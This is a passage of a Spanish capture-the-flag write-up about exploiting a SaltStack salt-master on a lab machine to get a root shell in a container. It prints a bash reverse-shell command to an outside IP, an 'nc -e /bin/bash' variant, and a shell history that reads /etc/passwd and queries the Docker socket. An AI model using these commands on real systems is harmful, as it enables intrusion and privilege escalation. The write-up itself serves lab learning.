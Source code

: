 ```bash
–» python3 exploit.py --port 4505 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.218/4434 0>&1"'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4505) status... OFFLINE
```

Él offline quiere decir que intento hacer ping y no consiguió respuesta, así que hagamos el forwarding pero con el puerto `4506`, y ejecutemos:

![274bash_containerbash](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/feline/274bash_containerbash.png)

(Ni con `nc ip port -e /bin/bash` ni con la versión antigua de `nc` obtuve ninguna respuesta)

Lindo lindo, obtenemos una shell sobre el contenedor del puerto `4506`, hacemos tratamiento de la TTY yyyy vemos cositas interesantes:

* Tenemos un archivo `todo.txt`.
* Curioso que el archivo `.bash_history` tiene contenido.

```bash
root@2d24bf61767c:~# cat todo.txt 
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

```bash
root@2d24bf61767c:~# cat .bash_history
paswd
passwd
passwd
passswd
passwd
passwd
cd /root
ls
ls -la
rm .wget-hsts
cd .ssh/
ls
cd ..
printf '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.' > todo.txt
cat todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.' > todo.txt
cat todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\' > todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\' > todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
cat todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers through events.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
cd /home/tomcat
cat /etc/passwd
exit
cd /root/
ls
cat todo.txt 
ls -la /var/run/
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
exit
```